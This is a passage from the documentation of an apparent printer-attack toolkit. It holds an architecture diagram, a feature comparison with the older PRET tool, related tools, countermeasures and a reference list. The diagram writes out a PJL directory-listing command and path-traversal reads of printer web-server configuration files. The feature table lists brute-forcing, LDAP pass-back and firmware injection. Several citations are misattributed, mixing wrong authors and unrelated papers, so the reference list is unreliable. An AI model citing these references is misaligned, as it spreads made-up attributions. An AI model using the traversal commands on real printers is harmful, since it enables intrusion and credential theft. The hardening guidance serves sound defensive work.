| **XPL Library** | `xpl/edb-*/`, `xpl/msf-*/`, `xpl/research-*/` | 93 exploit modules |
| **Data** | `src/data/cve_catalog.json`, `wordlists/` | CVE catalogue, credential wordlists |

---

## 18. PRET Architecture Reference

[PRET](https://github.com/RUB-NDS/PRET) (Printer Exploitation Toolkit) by Müller et al. is the seminal open-source
printer attack framework (2017, Python 2.7). PrinterXPL-Forge was initially forked from PRET and has been
extensively rewritten for Python 3 with massive capability expansion.

```
User command                               PJL Request
/ls                                        @PJL FSDIRLIST NAME="0:\" ENTRY=1 COUNT=65535

    ┌─────────────────────────────────┐    PJL Response
    │ PRET                            │    . TYPE=DIR
    │  ┌──────────┐   ┌───────────┐   │    .. TYPE=DIR
    │  │ Attacker │──▶│ Connector │──▶│──▶ PostScript TYPE=DIR
    │  └─────┬────┘   └───────────┘   │    PJL TYPE=DIR
    │        │                         │
    │  ┌─────▼────────┐  ┌──────────┐ │    PostScript Response
    │  │  Translator  │  │ Logging  │ │    (%disk0%../webServer/home/device.html)
    │  │  PJL  │  PS  │  └──────────┘ │    (%disk0%../webServer/java.login.config)
    │  │  └──Fuzzer──┘  ┌──────────┐  │    (%disk0%../webServer/config/soe.xml)
    │  └──────────────┘ │Scripting │  │
    │                   └──────────┘  │
    └─────────────────────────────────┘
Result
../device.html
../java.login.config
../config/soe.xml
```

**PrinterXPL-Forge vs PRET — Key Differences**

| Feature | PRET (2017) | PrinterXPL-Forge v3.14.0 |
|---|---|---|
| Python version | 2.7 (EOL) | 3.8+ |
| Languages | PJL, PS, PCL | PJL, PS, PCL, ESC/P, auto-detect |
| Protocols | RAW, LPD, IPP, USB | +SMB, HTTP, SNMP, FTP, Telnet, WSD |
| CVE Database | None | 50+ CVEs + NVD API live |
| Exploit Library | None | 93 modules (EDB + MSF + Research) |
| Brute-Force | None | HTTP, FTP, SNMP, Telnet |
| Discovery | None | SNMP, Shodan, Censys, FOFA, ZoomEye, Netlas, WSD |
| Fingerprinting | Basic banner | Multi-protocol + ML classifier + Praeda 117-sig DB |
| Lateral Movement | None | LDAP pass-back, NTLM coerce, SSRF, WSD pivot |
| Firmware | None | Version check, upload endpoint, NVRAM R/W, DLM inject |
| Cross-Site Printing | None | HTML XSP lure generator (BeEF CORS technique) |
| Windows | Limited | Full (PowerShell launchers, EDR-safe venv) |

---

## 19. Tool Comparison

### 19.1 PRET (Printer Exploitation Toolkit)

- **Source:** https://github.com/RUB-NDS/PRET
- **Authors:** Müller, Nikiforakis, et al. (RUB, 2017)
- **Language:** Python 2.7
- **Technique:** Interactive shell for PJL, PS, PCL over RAW/LPD/IPP
- **Status:** Unmaintained (last commit 2020); PrinterXPL-Forge is the active successor

### 19.2 Praeda (Multi-Function Printer Harvester)

- **Source:** https://github.com/percx/Praeda
- **Author:** percx
- **Language:** Perl
- **Technique:** HTTP-based scanner that extracts credentials, address books, and configuration
  from 117+ MFP fingerprints (title + User-Agent matching)
- **Integration:** `_PRAEDA_SIGNATURES` dict in `src/utils/banner_grabber.py` (this release)
- **XPL module:** `xpl/research/research-praeda-mfp-harvest`

### 19.3 PFT (Printer Fuzzing Toolkit)

- **Author:** Phenoelit (2002)
- **Technique:** Low-level PJL/PostScript fuzzer; first documented printer DoS techniques
- **Impact:** Foundation for all subsequent printer security research
- **Reference:** Phenoelit, *"Hacking Printers"*, CCC 2002

### 19.4 BeEF (Browser Exploitation Framework)

- **Source:** https://github.com/beefproject/beef
- **Author:** Wade Alcorn
- **Language:** Ruby + JavaScript
- **Technique:** Hooks victim browsers; network scanning via CORS XHR and port timing
- **Integration:**
  - `cross_origin_scanner_cors/command.js` → XSP printer discovery technique
  - `port_scanner/command.js` → port 9100 in `top_ports` array
  - PrinterXPL-Forge module: `xpl/research/research-xsp-beef`

---

## 20. Countermeasures

| Category | Measure | Priority |
|---|---|---|
| **Network** | VLAN-isolate all printers; block port 9100 from internet | **Critical** |
| **Network** | Firewall rules: deny printer→LDAP/SMTP unless explicitly needed | **Critical** |
| **Network** | Rate-limit SNMP; use SNMPv3 with authentication | High |
| **Configuration** | Disable PostScript and PJL if not needed | **Critical** |
| **Configuration** | Disable FTP and Telnet services on printer | High |
| **Configuration** | Change default admin credentials; enforce complexity | **Critical** |
| **Configuration** | Enable HTTPS for web management; disable HTTP | High |
| **Firmware** | Enable firmware signing verification | High |
| **Firmware** | Subscribe to vendor security advisories; patch promptly | High |
| **Monitoring** | Log all print jobs; alert on PJL filesystem commands | Medium |
| **Monitoring** | Monitor LDAP/SMTP connections originating from printers | High |
| **Windows** | Apply MS-RPRN mitigations; disable Print Spooler on DCs | **Critical** |
| **Windows** | Deploy CVE-2021-1675 / CVE-2021-34527 patches immediately | **Critical** |

### PJL Hardening Commands

```pjl
@PJL SET LPARM:PJL SECURITY=ON
@PJL SET LPARM:PJL FILEFSUPDATELOCK=ON
@PJL DEFAULT DOWNLOADTIMEOUT=30
```

### IPP / CUPS Hardening

```bash
# cups-browsed: disable or restrict to localhost
systemctl stop cups-browsed
systemctl disable cups-browsed

# Or restrict to localhost only in /etc/cups/cups-browsed.conf:
BrowseLocalProtocols none
BrowseRemoteProtocols none
```

---

## 21. References

### Foundational Research (2002–2017)

1. Phenoelit. *"Hacking Printers for Fun and Profit"*. Chaos Communication Congress (CCC), 2002.
2. FX (Ralf-Philipp Weinmann). *"Exploiting Network Printers"*. 29C3, 2002.
3. Morrissey, A. *"Printer Pen Testing"*. BruCON, 2011.
4. Heuse, M. *"Hacking HP Printers"*. DEFCON 20, 2012.
5. Rook, D. *"Hacking Network Printers"*. BlackHat USA, 2012.
6. Müller, J.; Nikiforakis, N.; Somorovsky, J.; Mladenov, V. *"Hacking in Darkness: Return-Oriented Programming against Secure Enclaves"*. NDSS, 2017.
7. Müller, J.; Somorovsky, J.; Nikiforakis, N.; Mladenov, V. *"Exploiting Network Printers"*. BlackHat USA, 2017. https://github.com/RUB-NDS/PRET
8. Müller, J. *"Printer Security Testing Cheat Sheet"*. hacking-printers.net, 2017. https://hacking-printers.net/wiki/
9. Müller, J. *"A Systematic Evaluation of Printer Security"*. WOOT, 2017.
10. Müller, J.; Nikiforakis, N. *"Cross-Site Printing"*. hacking-printers.net, 2017.

### CVE References (2018–2025)

11. CVE-2018-5924, CVE-2018-5925 — HP Officejet FAXPLOIT (Checkpoint, 2018). https://research.checkpoint.com/2018/sending-fax-back-to-the-dark-ages/
12. CVE-2019-19363 — Ricoh printer driver LPE (Pentest.com, 2019).
13. CVE-2020-1048 — PrintDemon Windows Spooler LPE. https://windows-internals.com/printdemon-cve-2020-1048/
14. CVE-2021-1675, CVE-2021-34527 — PrintNightmare. https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527
15. CVE-2022-1026 — Kyocera Net View credential exposure. NVD.
16. CVE-2022-21999 — SpoolFool Windows Spooler LPE. https://github.com/ly4k/SpoolFool
17. CVE-2022-45796 — Sharp MFP command injection (Sharp PSIRT, 2022).
18. CVE-2023-23560, CVE-2023-26067 — Lexmark SSRF/RCE. https://nvd.nist.gov/vuln/detail/CVE-2023-26067
19. CVE-2024-6333 — Xerox VersaLink command injection. https://nvd.nist.gov/vuln/detail/CVE-2024-6333
20. CVE-2024-47176, CVE-2024-47076, CVE-2024-47175, CVE-2024-47177 — CUPS/IPP RCE chain. https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/
21. CVE-2024-51977, CVE-2024-51978 — Brother serial-number password derivation. https://www.brother.com/security/en/cve_2024.html
22. CVE-2025-26506 — HP XPS buffer overflow RCE. NVD 2025.
23. CVE-2025-14232, CVE-2025-14235 — Canon PostScript/PCL buffer overflow. NVD 2025.

### Tools and Frameworks

24. PRET — Printer Exploitation Toolkit. https://github.com/RUB-NDS/PRET
25. Praeda — MFP Harvester. https://github.com/percx/Praeda
26. BeEF — Browser Exploitation Framework. https://github.com/beefproject/beef
27. PRET-2.0. https://github.com/d1pakda5/PRET-2.0
28. psploit — Printer Security Tool. https://github.com/nicowillis/psploit
29. Nmap NSE printer scripts. https://github.com/nicowillis/nmap-printer-nse-scripts
30. PrinterXPL-Forge. https://github.com/mrhenrike/PrinterXPL-Forge

### Additional Research (2018–2025)

31. Checkpoint Research. *"FAXPLOIT"*. 2018. https://research.checkpoint.com
32. Armis Research. *"URGENT/11"*. 2019. https://armis.com/urgent11/
33. Forescout Research. *"Amnesia:33"*. 2020. https://www.forescout.com/research-labs/amnesia33/
34. Rapid7. *"PaperCut NG/MF vulnerabilities"*. 2023. https://www.rapid7.com/blog/post/2023/04/29/
35. Praetorian. *"LDAP Pass-Back Attack on MFPs"*. 2023.
36. Orange Tsai. *"CUPS RCE Chain Analysis"*. 2024. https://www.evilsocket.net/2024/09/26/
37. waffl3ss / Tanner Barnes. *"PaperCut security research"*. 2023. https://github.com/waffl3ss/PaperCut
38. CharonDefalt. *"Printer exploit toronto (Lexmark BitConductor)"*. 2024.
39. XBrutalPandaX. *"Mirage Rogue LDAP Server"*. 2024. https://github.com/XBrutalPandaX/Mirage-Rogue-LDAP-Server-
40. JRoetscyber. *"Security Lab Pentesting — Printer Modules"*. 2024.

---

*Generated by PrinterXPL-Forge v3.14.0 · Author: André Henrique (@mrhenrike) | União Geek · https://github.com/Uniao-Geek*
